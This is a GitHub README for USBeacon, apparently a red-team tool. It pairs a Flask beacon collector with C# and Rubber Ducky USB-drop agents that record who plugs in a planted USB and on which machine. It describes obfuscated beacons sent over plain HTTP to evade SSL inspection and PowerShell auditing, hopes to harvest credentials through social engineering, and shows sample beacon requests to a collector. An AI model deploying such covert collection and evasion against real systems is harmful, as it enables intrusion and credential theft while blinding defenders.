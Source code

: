 USBeacon
===================
>- What and Why
>  - **Backend**
>  - **Frontend**
>  - **Provisioning**
>  - **Operations**
>  

#What and Why

* Ask: Use no exploitation or drop offensive agents (Empire, MSF), but record who inserted USB an on what machine. Possibly use SocEng opportunities to gain some credential data. 
* Enable transparent, obscured payload communication over common non-secured port (80). Application level encryption. This is done so that SSL interception and inspection is not an issue.  Works by blending into normal traffic. All it should look like a straight HTTP traffic.
* Allows storage of gathered data.
* Any HTTP client can communicate.
* Relative ease of deployment.  Flask microframework. 

##Backend 

> - Flexibly Handles REST API
> Verbs:  _GET_, _POST_, _PUT_ 
> endpoints 
>  - /beacon/[:id] , 
>  - /ebeacon/[:id] (encrypted beacon) 
> - Decodes/decrypts payloads
> - Saves timestamped payloads to database 


Sample Plaintext (POST):

`POST http://example.com:8000/beacon/4445534B544F502D4A4D4A4D4E4C49`

`a=hid&d=state_ok_data_follows`

Sample Encrypted Request:

`POST http://example.com:8000/ebeacon/4445534B544F502D4A4D4A4D4E4C49 `

`a=hid&d=NTgsNTksNDUsNTMsNDIsNDksNDYsODMsNTIsNTEsNTIsNTEsNDgsNTAsNTUsMzQsMjYsMjMsMTksMzEsMTMsMzIsNTgsNTksNDUsNTMsNDIsNDksNDYsODMsNTIsNTEsNTIsNTEsNDgsNTAsNTUsMzIsNzksNzEsNzYsODAsNzksNzIsNzAsODAsNzksNzEsNzEsODAsNzksNzYsNzEsMzI`

### Install
git clone https://github.com/dsnezhkov/USBeacon.git

_Install runtime and framework dependencies_

    apt-get install python3.4-venv
    python3.4 -m venv venv
    pip install --upgrade  pip
    pip install gunicorn
    
_Install application dependencies_

    pip install -r requirements
    
  _Application init and start_
  
    python init_db.py
    
>Setup application container: Nginx/apache/wsgi, etc.
	    
    
    gunicorn app:app -p gunicorn.pid -b 0.0.0.0:8000  --error-logfile=gunicorn.log --access-logfile=gunicorn.log --capture-output  -D 

###_Alternatively run setup and run scripts_
`backend/scripts/setup.sh`
This script will also have a sample nginx site configuration

`backend/scripts/start_server.sh`

----------
## Frontend 

Really, it's about agent gathering the data. Normally it would be an executable on USB doing the collection. I opted to avoid Powershell or other native scripting capability to avoid the upcoming Powershell command auditing. This might include anything within **System.Management.Automation** space. At the same time C# agent strikes a balance between Powershell and unmanaged code. 

_Frontend_ contains example of such C# projects which collects needed info and can be used to communicate HTTP back to  the Backend collector.

>./frontend/Windows/exebeacon/

is one such example. 
For the specific need I have chosen to further protect the  code with https://yck1509.github.io/ConfuserEx/ 


Create others as needed.

## Provisioning 

Contains sample scripts to manage creation of a working USB RubberDucky drop.  

> ./dist - _your payloads that go on RD USB _ 
Scripts:
> - get_ext_deps.sh  - _Get USB RD dependency scripts_
> - gen_vidpid.sh - _VIP PID swapper
> - payload2usb.sh - _Flash RD firmware and copy payload to RD_
> - gen_inject.sh - Convert RD script to inject.bin 

## Operations
TBD
**Shortcomings:**

> - Static XOR key between frontend and backend, but can be randomized with keyspace of UTF-16  
Opted out of full symmetric encryption due to poor support in VBScript.